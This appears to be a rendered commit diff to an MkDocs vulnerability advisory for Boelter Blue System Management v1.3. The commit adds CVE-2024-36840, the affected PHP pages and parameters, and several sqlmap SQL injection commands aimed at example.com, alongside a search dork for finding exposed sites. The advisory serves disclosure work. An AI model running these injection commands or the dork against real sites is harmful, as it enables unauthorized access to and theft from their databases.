

Before and after one commit to InfoSec-DB/CyberDepot, an MkDocs documentation site: the page built from docs/vuln_boelter_blue.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Updating CVE

```diff
--- a/docs/vuln_boelter_blue.md
+++ b/docs/vuln_boelter_blue.md
@@ -7,21 +7,37 @@
 **Google Dork**: "Powered by Boelter Blue"
 **Vendor**: Boelter Blue ([boelter.com](https://www.boelter.com/))
 **Software Link**: [Google Play Store](https://play.google.com/store/apps/details?id=com.anchor5digital.anchor5adminapp&hl=en_US)
+# Tested on: Linux Debian 9 (stretch), Apache 2.4.25, MySQL >= 5.0.12
+**CVE**: CVE-2024-36840
+
 
 ## Overview
 
 Boelter Blue System Management v1.3 has been found to contain multiple critical SQL injection vulnerabilities. These vulnerabilities allow attackers to execute arbitrary SQL queries, potentially leading to sensitive data exposure, unauthorized access, and complete control over the affected database.
 
-## Vulnerabilities
+## Affected Component##
+> news_details.php
+> services.php
+> location_details.php
 
-### 1. SQL Injection in `news_details.php`
-**Vulnerable Parameter**: `id`
-**Type**: Boolean-based blind, Time-based blind, Union-based injection
-**Impact**: Full database access, Information disclosure, Account takeover
+>  - id parameter
+>  - section parameter
 
 #### PoC Example
 **SQLMap Injection**:
 `sqlmap -u "https://www.example.com/news_details.php?id=10071" --random-agent --dbms=mysql --dbs`
+
+
+**news_details.php?id** parameter:
+   `sqlmap -u "https://www.example.com/news_details.php?id=10071" --random-agent --dbms=mysql --threads=4 --dbs`
+
+**services.php?section** parameter:
+   `sqlmap -u "https://www.example.com/services.php?section=5081" --random-agent --tamper=space2comment --threads=8 --dbs`
+
+**location_details.php?id** parameter:
+   `sqlmap -u "https://www.example.com/location_details.php?id=836" --random-agent --dbms=mysql --dbs`
+
+
 
 
 **Injection Types**:
@@ -194,7 +210,7 @@
 
 ## CVE Information
 
--   **CVE ID**: Pending
+-   **CVE ID**: CVE-2024-36840
 
 ## Contact Information
 
```
